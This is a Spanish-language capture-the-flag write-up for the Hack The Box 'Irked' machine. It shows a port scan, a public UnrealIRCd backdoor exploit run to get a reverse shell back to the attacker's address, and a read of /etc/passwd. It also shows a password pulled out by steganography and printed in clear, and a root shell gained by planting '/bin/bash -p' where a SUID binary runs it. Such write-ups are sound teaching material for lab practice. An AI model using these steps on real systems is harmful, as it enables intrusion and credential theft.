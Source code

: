 # Irked ![Avatar](https://www.hackthebox.eu/storage/avatars/5fb846e75cf0db0c4b27e2dc64a9bf82_thumb.png)

## Initial Scan

```
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34234/tcp   status
|   100024  1          41847/udp   status
|   100024  1          47934/udp6  status
|_  100024  1          51357/tcp6  status
6697/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
8067/tcp  open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
34234/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
```

## Enumeration

La versión del IRC presenta una vulnerabilidad (CVE 2010-2075) que permite RCE, exploremos esta via

## Exploit

Encontramos un exploit que valga para este CVE y nos lo descargamos
```
https://github.com/M4LV0/UnrealIRCd-3.2.8.1-RCE
```
Lancemos el exploit
```
python2.7 pwnunrealirc.py 10.10.14.2 4444 10.10.10.117 6697
```
Tenemos shell
```
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```
Dado que no hay user.txt en nuestra carpeta veamos que mas usuarios tenemos
```
ircd@irked:~/Unreal3.2$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
djmardov:x:1000:1000:djmardov,,,:/home/djmardov:/bin/bash
ircd:x:1001:1001::/home/ircd:/bin/sh
```
djmardov tiene la flag del user no por intuición si no porque podemos ver dentro de su carpeta home, no tenemos permiso para leerla, pero si para leer un archivo de backup

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
Steg puede implicar la presencia de steganografia en la imagen hallada en la pagina web, descargemosla y comprobemos si podemos sacar algo 

```
pj@crow-foot:~/Current$ steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss 
anoto los datos extraodos en/"pass.txt".
```
En pass.txt tenemos lo siguiente
```
Kab6h+m+bbp2J:HG
```
Las creds quedan asi
```creds
djmardov:Kab6h+m+bbp2J:HG
```
Y con esto ya podemos logearnos y obtener la primera flag
## Priv Escalation

Buscamos SUID
```
djmardov@irked:~$ find / -type f -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
```
viewuser parece sospechoso, ejecutemoslo

```
djmardov@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-08-01 10:45 (:0)
djmardov pts/1        2020-08-01 12:22 (10.10.14.2)
sh: 1: /tmp/listusers: not found
```
Parece que busca algún archivo en /tmp veamos si podemos invocar una shell abusando de ello.

```
echo '/bin/bash -p' > /tmp/listusers
djmardov@irked:~$ /usr/bin/viewuser 
```
Con esto ya tenmos una shell como administrador
```
root@irked:~# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth).
```

Ahora solo nos queda leer la root flag 
```
root@irked:/root# wc -c root.txt 
33 root.txt
```
https://www.hackthebox.eu/storage/avatars/f412784c311bdf52c3655381d2c9cd21_thumb.png
